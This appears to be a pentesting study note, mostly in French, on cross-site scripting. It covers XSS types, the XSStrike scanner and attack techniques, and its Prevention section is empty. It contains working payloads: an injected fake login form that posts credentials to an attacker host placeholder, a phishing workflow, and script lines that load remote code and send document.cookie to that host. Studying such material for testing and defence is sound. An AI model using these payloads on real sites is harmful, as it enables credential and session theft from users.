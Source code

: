 # CROSS-SITE SCRIPTING (XSS)  

###### 3 types d'injection xss :
|**Type**|**Description**|
|---|---|
|Stored (Persistent) XSS|The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)|
|Reflected (Non-Persistent) XSS|Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)|
|DOM-based XSS|Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)|

## Bases

###### Stored (Persistent) XSS
* elle envoi l'input au backend 
###### Reflected XSS:
* elle se fait souvent ou parfois dans les URL des requettes , ex :
    ```URL
    http://159.65.81.48:30264/index.php?task=%27%3Cscript%3Ealert(document.cookie)%3C/script%3E%27
    ```
* elle envoi l'input au backend 
* non persistant 
###### DOM XSS
* exécuté en front
* non persistant
```html
<img src="" onerror=alert(window.origin)>
```

###### Vulnérability scanner 
* Burp Suite
* Zap
* Nessus


###### Tools de découverte

* XSS Strike
    ```bash
    git clone https://github.com/s0md3v/XSStrike.git
    cd XSStrike
    pip install -r requirements.txt
    python xsstrike.py

    python xsstrike.py -u "http://SERVER_IP:PORT/index.php?<Champ>=<Value>"
    ```
* Brute XSS

* XSSer

## XSS Attack
###### Defzcing attacks
* remplacer le contenu de la page

###### Phishing Attack
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();

```
* trouver un moyen de simuler une login page 
* mettre une redirection des requettes vers son serveur nc 
* envoyer le lien à la victime

###### Session Hijacking

```javascript
// load to remote script
<script src="http://OUR_IP/script.js"></script>
// get cookie
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
--- 
## Prevention


---

## Ressources
##### Payloads
* [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
* [Payload Box](https://github.com/payloadbox/xss-payload-list)
